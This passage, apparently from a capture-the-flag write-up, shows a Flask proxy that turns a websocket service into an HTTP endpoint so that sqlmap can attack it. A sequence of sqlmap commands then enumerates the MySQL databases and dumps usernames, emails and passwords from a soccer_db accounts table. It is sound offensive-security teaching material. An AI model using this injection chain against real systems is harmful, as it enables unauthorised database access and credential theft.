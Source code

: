 ```python
            return response

    except websockets.exceptions.ConnectionClosedOK:
        print("Connection closed gracefully.")
    except websockets.exceptions.ConnectionClosedError as e:
        print(f"Connection closed with error: {e}")
    except Exception as e:
        print(f"An unexpected error occurred: {e}")

app = Flask(__name__)

@app.route("/wsproxy", methods=['GET'])
def wsproxy():
    payload = request.args.get('payload')
    """
    This function is executed when a GET request is made to /greet/<name>.
    It takes a 'name' as a path variable and returns a personalized greeting.
    """

    response = asyncio.run(connect_and_send(payload))

    return response
    
if __name__ == "__main__":
    app.run(debug=True)
```

#### Database Enumeration 
Get database type - mysql 
- sqlmap -u "[http://127.0.0.1:5000/wsproxy?payload=1"](http://127.0.0.1:5000/wsproxy?payload=1%22)![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXc39UshZhM3HD-F_bz2o3CktkNAMLBrA2rTT13LPRxHI7cUd0XoCs7HbHXXkxbgeNhhA5qCfZmvVfCdKGgqozn9JHJxzFCuIgTp3eDTdWGuiBjMrCSDePHntU4so8ZFXkvJ5Ar3-Q?key=q9MaodwMauRwDznDaBSNew)

Get mysql databases - notable database - soccer_db
- sqlmap -u "http://127.0.0.1:5000/wsproxy?payload=1" --dbs![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdrrmibyV0pWdrIMiJQ1wqXsEMNnFXByh-eZTEj_UE0pakKVsUU7j-EXhv0ilLz1fS7zDyPF4jlMLvADxgqkxiUuvb1ig0huLwbv0IPbiD88MSrKX3ILE9LGIuKmaOTMCTEcsQE5g?key=q9MaodwMauRwDznDaBSNew)
    
Get soccer_db table names - accounts
- sqlmap -u "http://127.0.0.1:5000/wsproxy?payload=1" -D soccer_db --tables![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXfFekrXJAEvVhQ4MdwcbGeVJQKEVyAmBt75RsPe2Tg6cWhZQagfCB7avTmCpEgVVxDPRIMzqGQ0jhOPWdW5QjXDd5GKw-ahIscjyVqd35xjfkNrGnFfRs6TvQPUWyp9GfLmau2DGQ?key=q9MaodwMauRwDznDaBSNew)
    
Get accounts table columns
- sqlmap -u "http://127.0.0.1:5000/wsproxy?payload=1" -D soccer_db -T accounts --columns
![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdIcbjy93d0gWVMKrj6Ewv2ildg5BEicZHGzZY6PvSS_bMu7tZPHBG91lkoDVN446tm-QwTDtGLiLiF4Gd37b9cmz-0pX2Y3wdN6GbBMabqqS6K6YYfFlHGuMVlh5WSFC0GDjc8?key=q9MaodwMauRwDznDaBSNew)

Dump accounts table information 
- sqlmap -u "http://127.0.0.1:5000/wsproxy?payload=1" -D soccer_db -T accounts -C email,id,password,username --dump ![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdBp7Ro1g9nlP6_7QHaOXbgyNKrqcSdZMf4BkuCNLLJ5tvwK1Toz_mBuBEur8tVQu2jtFPA11uvl55q3PRpcYo0-TqP-qZYXMx92qauRAdV1RrKNuW98mqkGP0LYlMVtXPV3jDfGA?key=q9MaodwMauRwDznDaBSNew)
    